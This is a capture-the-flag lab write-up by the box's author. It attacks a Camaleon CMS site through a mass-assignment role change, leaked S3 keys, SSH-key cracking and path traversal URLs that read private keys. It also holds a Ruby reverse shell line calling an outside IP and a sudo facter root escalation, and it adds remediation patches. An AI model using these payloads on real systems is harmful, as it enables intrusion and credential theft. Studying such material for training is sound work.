

# Facts
## Introduction

I had an idea about showing a different way of abusing `facter` than the gtfobins shows (at the time of developing the box), for privilege escalation, and because it's using what they call "ruby facts", I had the idea of making a facts based website in ruby and found the Camaleon CMS which has a cute CVE with a real easy mass assignment vulnerability. It's not directly obvious from the public information how to abuse it but in reality it's very easy.

I also wanted to make a box without any credentials or keys that can be shared among players so all the passwords are uncrackable (except the SSH key password, randomizing that one introduced a potentially unfair advantage to players with stronger hardware or just lucky to hit a password earlier in the wordlist) and for foothold, there is an SSH key that gets generated on bootup. I also wanted to showcase that you can find out the user that an SSH private key belongs to by using ssh-keygen (or by decoding the base64 blob). 

# Writeup

# Enumeration

Running a standard nmap scan on all ports, we can find 2 exposed ports: 22, 80:

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp open  http    nginx 1.26.3 (Ubuntu)
|_http-title: facts
|_http-server-header: nginx/1.26.3 (Ubuntu)
MAC Address: 00:0C:29:88:09:C8 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A full nmap scan will also reveal another port running MinIO, an object storage system compatible with Amazon S3.

```text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp    open  http    nginx 1.26.3 (Ubuntu)
|_http-title: facts
|_http-server-header: nginx/1.26.3 (Ubuntu)
54321/tcp open  http    Golang net/http server
|_http-title: Did not follow redirect to http://facts.htb:9001
|_http-server-header: MinIO
```

Accessing the `facts.htb` web page, we can see a website focused on trivia:  


Exploring it, we can learn and have fun at the same time which is a bit of a meta joke because that's what we're doing when hacking these boxes:    


Looking at the source code of the webpage, we can see a theme being used called `camaleon_first`, we can also see the images being taken from the /randomfacts directory:  

```html
[...]
<script src="/assets/themes/camaleon_first/assets/js/main-2d9adb006939c9873a62dff797c5fc28dff961487a2bb550824c5bc6b8dbb881.js"></script>

    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="Z6IxMDeoRvU43W8SfYbs4lIQRDDN3sPfAoc7kfZ665ARAUZo5mi7AQeulalI5KlrgricqZG2rr1tl9O91ZPSEg" />
<title>facts | Dogs Poop</title>
<link rel="icon" type="image/x-icon" href="http://facts.htb/randomfacts/primary-question-mark.png">
<meta name="description" content="&lt; &gt;">
[...]
```

When trying to access the /randomfacts/ directory to check for directory listing, we see we are forbidden:  

<p align="center">
  
</p>

A quick fuzz or a standard check of the `/admin` endpoint shows a login page. This is standard for a CMS so players will naturally find it quickly.

<p align="center">
  
</p>

What isn't clear from this page is the version of the cms. A quick google search for the camaleon_first them will indicate the Camaleon CMS.


Players with attention to detail would notice that the admin login curiously still has registration enabled. So we can create an account.

<p align="center">
  
</p>

Once logged in, we can see the CMS version in the bottom right corner (2.9.0) and that we are in the admin panel but without any access to anything. 


Looking at our profile, we can see that we have the role `client` and we can change the password:  


# Web Privilege Escalation: Mass Assignment (CVE-2025-2304)

Armed with the knowledge of the CMS version, we can do some research and find that there is a [Privilege Escalation](https://github.com/advisories/GHSA-rp28-mvq3-wf8j) vector when a user changes their password:  


The [Tenable](https://www.tenable.com/security/research/tra-2025-09) post briefly mentions the offending code but doesn't show a Proof of Concept.  

```ruby
def updated_ajax
  @user = current_site.users.find(params[:user_id])
  update_session = current_user_is?(@user)

  @user.update(params.require(:password).permit!)
  render inline: @user.errors.full_messages.join(', ')

  # keep user logged in when changing their own password
  update_auth_token_in_cookie @user.auth_token if update_session && @user.saved_change_to_password_digest?
end
```
However that is all the information we need. The blog clearly state that the use of the dangerous `permit!` method allows all parameters to be passed without any filtering. This means we can just add the parameter `password[role]=admin` on our password change POST request:  

<p align="center">
  
</p>

Logout and log back in and we have full administrator permissions:  


Unlike other CMSs, we don't have an option to edit a theme or install a malicious plugin and get RCE. It's an older style CMS. Some enumeration steps later, in the settings, we can find that it's using S3 buckets to store files and we have the keys. We can also see the port in case we missed it in our initial nmap scan.


# Intended Foothold

We copy the keys and configure our AWS cli with a profile we called facts (these keys will be different on each machine bootup):  

```bash
aws configure --profile facts                                                                      
AWS Access Key ID [****************CF1E]: AKIA2D5A261A286E753F
AWS Secret Access Key [****************sBbZ]: wUbWnFaqLi0YdIDphyOoaU0eyr+neQ4Zl2uyQSq6
Default region name [None]: 
Default output format [None]:
```

Players that had discovered the MinIO port earlier, could've tried enumerating it with their own AWS keys or without any and found that while they can't list all the buckets, they can list the randomfacts bucket which they can infer is being used from the website source code. Notice we are using the `--no-sign-request` flag to make an anonymous request:  

```bash
aws --endpoint-url=http://facts.htb:54321 --no-sign-request s3 ls
An error occurred (AccessDenied) when calling the ListBuckets operation: Access Denied.
```

```bash
aws --endpoint-url=http://facts.htb:54321 --no-sign-request s3 ls randomfacts
                           PRE thumb/
2025-09-10 22:02:09     446847 animalejected.png
2025-09-10 22:02:09     271210 annefrankasteroid.png
2025-09-10 22:02:09     255778 catsattachment.png
2025-09-10 22:02:09     411597 cuteanimals.png
```

However, now that we actually have valid keys, we can list all the buckets and find one called `internal`:  

```bash
aws --profile=facts --endpoint-url=http://facts.htb:54321 s3 ls                              
2025-09-11 13:06:52 internal
2025-09-11 13:06:52 randomfacts
```

In the internal bucket, we find something interesting, a user folder with a .ssh folder:  

```bash
aws --profile=facts --endpoint-url=http://facts.htb:54321 s3 ls internal
                           PRE .bundle/
                           PRE .cache/
                           PRE .ssh/
2026-01-08 13:45:13        220 .bash_logout
2026-01-08 13:45:13       3900 .bashrc
2026-01-08 13:47:17         20 .lesshst
2026-01-08 13:47:17        807 .profile
```

Inside it we find an SSH private key:

```bash
aws --profile=facts --endpoint-url=http://facts.htb:54321 s3 ls internal/.ssh/
2026-03-02 05:15:01         82 authorized_keys
2026-03-02 05:15:01        464 id_ed25519
```

We can copy it locally:  

```bash
aws --profile=facts --endpoint-url=http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 id_ed25519
download: s3://internal/.ssh/id_ed25519 to ./id_ed25519
```

But at this point we don't know the box user. we can use `ssh-keygen` with the `-y` flag to read the public key where you can find the user and hostname but in this case, it requests a password:  

```bash
chmod 600 id_ed25519
ssh-keygen -y -f id_ed25519       
Enter passphrase for "id_ed25519":
```

This means that we are dealing with a password protected private key. Normally, with an unprotected private key you would expect this output:  

```bash
ssh-keygen -y -f test.key   
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDeLfNDMmReWzTch5KT7cAeFa5CMStg/fOni25Ol+gx+ kali@kali
```

We can use `ssh2john` to try and crack the password which is something that most players should know by now and it is a good idea to reinforce this lesson.

```bash
ssh2john id_ed25519 > hash.txt
```
Then try to crack it:  

```bash
john hash.txt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 24 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragonballz      (id_ed25519)     
1g 0:00:02:24 DONE (2026-03-02 05:26) 0.006915g/s 22.13p/s 22.13c/s 22.13C/s billy1..imissu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now that we have the password, we can try again and now can see the user and hostname at the very end of the public key:  

```bash
ssh-keygen -y -f id_ed25519
Enter passphrase for "id_ed25519": 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILgh5JjzkjHWV8jggEDdlrktVf01r1V/DEzrflgRiRL+ trivia@facts.htb
```

We can use the syntax below to remove the password if we want and the public key comment is displayed as well:  

```bash
ssh-keygen -p -f id_ed25519 -P dragonballz -N ""
Key has comment 'trivia@facts.htb'
Your identification has been saved with the new passphrase.
```

Without using ssh-kegeyn, we can crack the password, remove it from the key as shown above, then decode the base64 blob:  

```bash
cat id_ed25519 |grep -v '\-\-\-'|base64 -d|grep -a facts
```


Either way, we find out the user so we login and get the flag.

```bash
ssh -i id_ed25519 trivia@facts.htb
Enter passphrase for key 'id_ed25519': 
Welcome to Ubuntu 25.04 (GNU/Linux 6.14.0-29-generic x86_64)

[. . .]

Last login: Thu Sep 11 07:32:12 2025 from 192.168.150.128
trivia@facts:~$ id
uid=1000(trivia) gid=1000(trivia) groups=1000(trivia)
```

# Unintended Foothold #1 - CVE-2024-46987: Path Traversal

Despite using the v2.9.0 CMS version which should have this vuln patched, it seems that, as far as I can tell, the developers only sanitized the input when using a local filesystem to host files. Since I'm using an AWS S3 bucket via localstack, the path traversal isn't sanitized and still works.

>[!NOTE]
>In the meantime, it seems someone reported it and got [CVE-2026-1776](https://github.com/advisories/GHSA-jw5g-f64p-6x78) assigned which is good that it's tracked and you can update your CMS.

The flag can be taken by accessing this path after registering a new user, an admin level account is not required (despite the URL path indicating an admin endpoint) so the Mass Assignment is skipped.

```bash
/admin/media/download_private_file?file=../../../../../../home/william/user.txt
```

Foothold can be achieved by reading the /etc/passwd file and finding the user names, then looking to see if any authorized_keys exist, see that one does exist and begins with `ssh-ed25519` then read the corresponding private key.

```bash
/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/authorized_keys
/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_ed25519
```
### Remediation Patch/Workaround
If for some reason you are using this CMS and want to patch this, you can drop this initializer in your `config/initializers/` and restart it.

```ruby
Rails.application.config.to_prepare do
  CamaleonCms::Admin::MediaController.class_eval do
    def download_private_file
      file_path = params[:file].to_s

      if file_path.include?('..') || file_path.start_with?('/')
        render plain: 'Invalid file path', status: :bad_request
        return
      end

      begin
        file_data = cama_uploader.fetch_file(file_path)
        if file_data.present?
          if cama_uploader.is_a?(CamaleonCmsLocalUploader)
            send_file(file_data, disposition: 'inline')
          else
            redirect_to file_data, allow_other_host: true
          end
        else
          render plain: 'File not found', status: :not_found
        end
      rescue
        render plain: 'File not found', status: :not_found
      end
    end
  end
end
```

# Unintended Foothold #2: Custom Field Eval

After gaining an admin account using the Mass Assignment, accessing the Custom Fields and editing the Home Page, gives access to an option to eval a command. This is the direct endpoint:

```text
/admin/settings/custom_fields/1/edit
```

Normally this field expects a variable type such as `camaleon_first_list_select` or similar. But it also executes ruby code:

<p align="center">
  
</p>

```ruby
spawn(%(bash),[:in,:out,:err]=>TCPSocket.new(%(10.10.16.249),1337))
```

Save it and then trigger it by accessing the General Settings:


I assumed that this field only evals when looking at recent items as the title suggests and since my "website" didn't have the Recent items attribute/section showing, I didn't think it would eval anything. Yet again, assuming made an ass out of me, I should've tested it better but it is a nifty and interesting trick so we left it in. 

To me it is unclear if evaluating ruby code here is intended but I wouldn't be surprised if it is considering this is an Administrator level functionality. Similar to how as an administrator you can modify PHP code in themes and plugins in Wordpress to run your malicious payloads.
### Remediation Patch/Workaround
If for some reason you are using this CMS and don't use the Recent Items option, you can patch it out using this initializer which you can drop in your `config/initializer/` folder and restart it. This will just strip anything in that field:

```ruby
Rails.application.config.to_prepare do
  if defined?(CamaleonCms::CustomField)
    CamaleonCms::CustomField.class_eval do
      alias_method :original_options, :options
      
      def options
        opts = original_options
        if opts[:command].present?
          Rails.logger.error("CRITICAL: Blocked RCE attempt in CustomField ID #{self.id}. Command: #{opts[:command]}")
          opts[:command] = "" 
        end
        opts
      end
    end
  end

  if defined?(CamaleonCms::CustomFieldsHelper)
    CamaleonCms::CustomFieldsHelper.module_eval do
      def cama_custom_field_elements(object, fields)
        fields.each do |f|
          if f.options[:command].present?
            f.options[:command] = ""
          end
        end
        super(object, fields) rescue nil
      end
    end
  end
end
```

# Privilege Escalation

One of the first enumeration that needs to be done is to see if the user has any sudo privileges:  

```bash
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

Checking [GTFObins](https://gtfobins.github.io/gtfobins/facter/#sudo) we can see that `facter` does indeed have an entry. This is a command-line tool that gathers basic facts about nodes (systems) such as hardware details, network settings, OS type and version, etc.

However, env_reset is set which means that the suggested privesc attack won't work:

```bash
trivia@facts:~$ TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
sudo FACTERLIB=$TF facter
sudo: sorry, you are not allowed to set the following environment variables: FACTERLIB
```

> [!NOTE]
> At the time of developing this box, GTFObins didn't have any mention of the --custom-dir attack vector. Now it does making this step a lot easier. Easier than I intended at least.

This step requires a bit of research into the application and we can see that this allows you to run facts from a directory specified with the `--custom-dir` flag:   

```
trivia@facts:~$ facter -h
[...]

-c [--config]                     The location of the config file.
   [--custom-dir]                 A directory to use for custom facts.

[...]
```

This manual [page](https://linuxcommandlibrary.com/man/facter) specifically mentions Ruby facts however it's a bit misleading because it mentions `-c` being the flag for custom dir as well, but our help page from the command line says it matches for config file as well. To avoid any confusion, we specify the long format of `--custom-dir`:

```bash
trivia@facts:~$ mkdir privesc ; cat << EOF > privesc/priv.rb
> exec("/bin/bash")
> EOF
trivia@facts:~$ sudo facter --custom-dir privesc/
root@facts:/home/trivia# id
uid=0(root) gid=0(root) groups=0(root)
```

I hope this easy box reinforced some good strategies for enumeration, highlights the need for attention to detail and also taught a few nifty tricks that I believe are worth remembering.

# Flowchart


